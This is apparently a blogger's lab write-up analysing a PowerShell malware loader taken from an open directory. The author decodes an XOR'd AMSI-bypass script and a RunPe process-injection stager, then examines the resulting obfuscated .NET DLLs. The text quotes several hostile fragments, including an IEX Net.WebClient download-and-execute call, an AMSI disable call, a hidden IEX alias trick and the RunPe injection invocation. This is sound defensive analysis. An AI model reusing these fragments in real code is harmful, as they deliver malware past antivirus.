# Twitter post

Having finished building and setting up a lab environment for malware analysis, the time had come to put it to use. Now all I need were malware samples to play around with. And so on the 16th of March 2021 while searching Twitter for malware opendirs, I noticed the following tweet:

 This seemed like a good starting point to aquire a sample, and so I went ahead and downloaded the files from the server into my Gateway virtual machine.

# Objectives

- Improve analysis skills
- Track how long I take to analyse
- Identify shortcomings in the analysis tools in the environment
- See how far I can go without prior knowledge of the sample details
- Gather intelligence data from external sources to aid in the analysis process
- Identify gaps in my analysis methodology
- Document the process to improve report writting skill
- Identify improvements and lessons learned

# Part 1 - The initial steps
## Aquiring the samples

Using a web browser I typed the URL link and downloaded all files hosted on the website to my Gateway virtual machine. Various different types of files were hosted on the site. The list of file extensions included txt, xml, sqlite and torrent files. These files were saved over two different directories named atomic1 and eset_202102:

### Shortcoming and improvement

- Automate the download process by installing a web scraping tool.

## A quick look at the files

The files names have a similar naming pattern. Vbindiff shows differences between files at a binary level, and the only difference shown was the file name. These files were non executable simple text files:

The first text file analysed was named "detect1.txt". This file contained what looked like a PowerShell script. Within it there was a simple condition, whose purpose was to find the Windows Defender status using Get-MpComputerStatus. Depending on the evaluation result, the script then proceeds to download the "amsi1.txt" or "eset1.txt" file. 

Unfortunately I made a beginner's mistake at this point. I completely forgot to download the file "amsi1.txt" for further investigation. By now I'm thinking it's better to look for another tweet, but as I already have the files I decided to continue.

### Shortcoming and improvement

- Automate the process to prevent manual errors by using a recursive website scraper.

The text file "eset1.txt" also contains what it looks like another PowerShell script:

The script starts with a condition, and depending on the result of if (-not ([System.Management.Automation.PSTypeName]"BP.AMS").Type), the script follows a different execution path. 

In case the evalued condition is false, it executes [BP.AMS]::Disable() to disable the Anti Malware Scan program. Otherwise the script defines three variables $byteArray, $KeyArray and $keyposition.

As the sample was not obfuscated, the main logic of the code is easily understandable.

The first variable defines what looks like to be a previously xor'd set of numerical values, while the second variable contains a smaller set of numerical values. The third variable is a counter.

The next block of instructions take every value in the byte values variable with the objective to xor (exclusive or operation) the values in the variable against the predefined set of values in the second variable, while taking into account the cursor position and its counter value. To exemplify the first 6 operations:

1. ByteArray[0] = 121 xor 52 = 77
2. ByteArray[1] = 12 xor 86 = 90
3. ByteArray[2] = 210 xor 66 = 144
4. ByteArray[3] = 23 xor 23 = 0
5. ByteArray[4] = 62 xor 61 = 3
6. ByteArray[5] = 52 xor 52 = 0

To prevent execution of malicious operations I commented a few of the lines of code:

In order to be able to output the results of the operation to a file for later analysis I've added the following lines to the PowerShell script:

<pre><code class="bash">$string = [System.Text.Encoding]::Unicode.GetString($byteArray)
Write-Output $string | Out-File -FilePath c:\output\eset1.bin</code></pre>

The first line converts the variable to Unicode string (using 16 bits), while the second line allows to output the results to a file. 

I also commented the last command IEX (New-Object Net.WebClient).DownloadString, as I previously had downloaded the file.

The "atomic1.txt" file is another PowerShell script, a longer one than the one contained in the previous file. The top of the file:

And the end of the file:

To increase the readability of the data contained in the file, I've searched for any occurrence of ";" and added a marker followed by 3 empty lines:

This allows me to quickly use the mini-map to spot large spaces between large variable texts:

The file contains a condition, depending on if it can find the "aspnet_compiler.exe" file in directory "C:\Windows\Microsoft.NET\Framework\v2.0.50727\" two files are generated. At this point I decided to break the file in two files named "atomic1" and "atomic2", one to generate the positive condition files and another one to generate the negative condition files to be able to analyse them separately.

Taking the same approach, I've commented the if([System.IO.File]::Exists("C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe")) line:

And commented out the what it looks like injection code [Reflection.Assembly]::Load($Cli555).GetType('RunPe.RunPe').GetMethod('Run').Invoke($null,[object[]] ('C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe',$Cli444)), and the | g variable which was defined at the top of the script in $t0='DEX'.replace('D','I'); sal g $t0;, this was done to prevent the execution of the expression as the value DEX gets changed to IEX command. 

I then added output ability on to the script to output the contents of the two variables into two separate files:

Did the same for atomic 2, and where applicable commented out the relevant instructions:

And added output code lines:

## Generating the payloads

Generating the files was a matter of executing the PowerShell scripts inside an isolated Windows virtual machine:

## Basic static analysis

After noticing the same file size of a few of the files, I've opened the files in HashMyFiles application to see the hashes of each individual file. Regardless of the path taken for execution on the "atomic1.txt" file, the resulting files are the same:

The next image shows the files hash values:

A search for the hash values returned no results. Hybdrid-Analysis, OTX.AlienVault and VirusTotal results were empty:

It was time to identify the files. Each file came up as "Unknown" in Detect It Easy:

After opening the files in a Hex Editor program, I noticed the first 2 bytes in each file were preventing them from being identified as PE files: 

With the first 2 bytes removed from the files, Detect It Easy had no problem in identifying the files. The file generated from "eset1.txt" text file was identified as a .NET(v4.0.30319) 32 Bit DLL file, and the linker used was Microsoft Linker(11.0):

The file "atomic-cli555" is another 32 Bit DLL file. This time Detect It Easy reported that an obfuscator program named Confuser(1.X) had been used to obfuscate the file contents:

Detect It Easy reported the linker information while scanning file "atomic1-cli444", no compiler information was present although the file was identified as making use of the "GUI" Windows subsystem:

Another observation, the file "atomic1-cli444" had the .reloc section flagged as packed:

And the file has an overlay made of 4 extra bytes appended to the file:

# Part 2 - In search of the main payload

Going back to the "eset1" file, using DNSpy decompiler to take a look at the source code:

After further online investigation, the source code that most likely served as inspiration for the author was found in this blog post [Citadel Cyber Security](https://www.citadel.co.il/Home/Blog/1008):

By opening "atomic1-cli555" in DNSpy I was left confused, as expected:

After searching GitHub for an unpacker that could get rid of the obfuscation that has been applied to the file, I found [https://github.com/ViRb3/de4dot-cex/releases](https://github.com/ViRb3/de4dot-cex/releases), which was able to deobfuscate some parts of file before throwing an error message:

By having part of the file deobfuscated I was able to better understand it by searching online and it seems the functionality in the script is derived from a .NET C# script dating back from 2015 named "Aeonhack RunPE C#" (VB version is also available) in [pastebin](https://pastebin.com/Dzhad8rB):

The following image shows the code available in the Pastebin script, side by side with the deobfuscated file:

# Part 3 - Dumping the main payload

























